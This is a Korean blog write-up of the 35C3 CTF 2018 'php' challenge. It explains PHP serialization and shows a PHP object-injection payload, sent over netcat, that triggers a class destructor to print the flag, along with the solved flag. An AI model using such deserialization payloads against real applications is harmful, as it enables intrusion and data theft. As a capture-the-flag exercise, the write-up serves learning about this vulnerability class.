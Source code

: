 ```yaml
---
layout: post
title: ! "[35C3 CTF 2018] php Write up"
excerpt_separator: <!--more-->
comments : true
tags:
  - mingzzi
  - Write-up
  - 35C3CTF
---
```


어제 ctftime을 돌아보다가 `35C3 CTF`가 하고 있길래 한 문제를 풀어보았다.  

원래 몇개 더 풀어보고 싶었는데 어떻게 푸는건지를 모르겠다.  

아직 Write up이 안올라왔던데, 나중에 올라오면 찾아봐야겠다.  

<!--more-->

일단 `php` 문제 정보는 다음과 같다.  

```
PHP's unserialization mechanism can be exceptional. Guest challenge by jvoisin.

Files at https://35c3ctf.ccc.ac/uploads/php-ff2d1f97076ff25c5d0858616c26fac7.tar. Challenge running at: nc 35.242.207.13 1
```

파일을 다운받아 압축을 풀어보면 `php.php` 파일을 확인할 수 있다.  

`php.php`의 내용은 다음과 같다.  

```php
<?php

$line = trim(fgets(STDIN));

$flag = file_get_contents('/flag');

class B {
  function __destruct() {
    global $flag;
    echo $flag;
  }
}

$a = @unserialize($line);

throw new Exception('Well that was unexpected…');

echo $a;
```

`STDIN`으로 입력 값을 받아 `$line`에 저장한 후, 이를 `unserialize` 함수를 통해 `unserialize` 한 값을 `$a`에 저장한다.  

마지막으로 `$a`를 출력 해 준다.  

그런데 위를 살펴보면 `B`라는 `class`가 선언되어 있고, `__destruct` 함수 안에 `$flag`함수를 출력 해 준다.  

아무래도 `unserialize` 함수의 취약점(?)을 가지고 푸는 문제인 것 같아 일단 `unserialize`함수가 무엇인지를 찾아보았다.  

> serialize()  
>> PHP 변수들을 string으로 만들어 주는 함수  
>> ex) serialize(array(3, 4, 5, 6)) => a:4:{i:0;i:3;i:1;i:4;i:2;i:5;i:3;i:6;}  
>> a:4 => 배열의 크기는 4  
>> object 일 경우 O:object_name_length:"object_name":object_size:  
>> ex) O:8:"stdclass":8:  
>> i:0;i:3 => 배열 첫 번째 인덱스의 값은 3  
>> int가 아닌 string 형태 일 경우 s:string_length:"string";    
>> ex) s:3:"one";

> unserialize()  
>> serialize 된 변수를 PHP 값으로 변환  
>> ex) unserialize(a:4:{i:0;i:3;i:1;i:4;i:2;i:5;i:3;i:6;}) => Array([0] => 3 [1] => 4 [2] => 5 [3] => 6)  

그런데 찾아보다 보니, 아래와 같은 블로그를 찾을 수 있었다.  

[http://qkqhxla1.tistory.com/444](http://qkqhxla1.tistory.com/444)

`php object injection`에 대한 설명인데, 취약점 exploit을 위한 아래의 두 가지 조건이 `php` 문제와 정확히 일치한다.  

1. 어플리케이션은 php의 매직 메소드(__wakeup이나 destrust 같은)를 구현한 클래스를 가지고 있어야 한다.  
2. 공격중의 모든 클래스들은 취약한 unserialize()가 호출되기 전에 선언되어야 한다.  

그래서 아래와 같이 입력 해 보았다.  

```
O:1:"B":1{s:4:"flag";s:5:"/flag";}
```

그러면 `B` 클래스에 `flag`라는 이름으로 `/flag`를 할당하고 `__destruct` 메소드를 호출하며 `echo $flag`를 실행 할 것이다.  

문제에 접속하여 위와 같이 입력 했더니 flag를 읽을 수 있었다!  

```
$ nc 35.242.207.13 1
O:1:"B":1{s:4:"flag";s:5:"/flag";}
35C3_php_is_fun_php_is_fun
PHP Fatal error:  Uncaught Exception: Well that was unexpected… in /home/user/php.php:16
Stack trace:
#0 {main}
  thrown in /home/user/php.php on line 16
```

그런데 이 문제 다시 생각 해 보니 어찌됬든 `__destruct` 메소드만 호출하도록 하면 되서 굳이 내가 한 방식 말고 `O:1:"B":1:{}` 이런식으로 해도 문제가 풀릴 것 같다.  

근데 뭐 풀었으니 됬다 ㅎㅎㅎ  

```
35C3_php_is_fun_php_is_fun
```
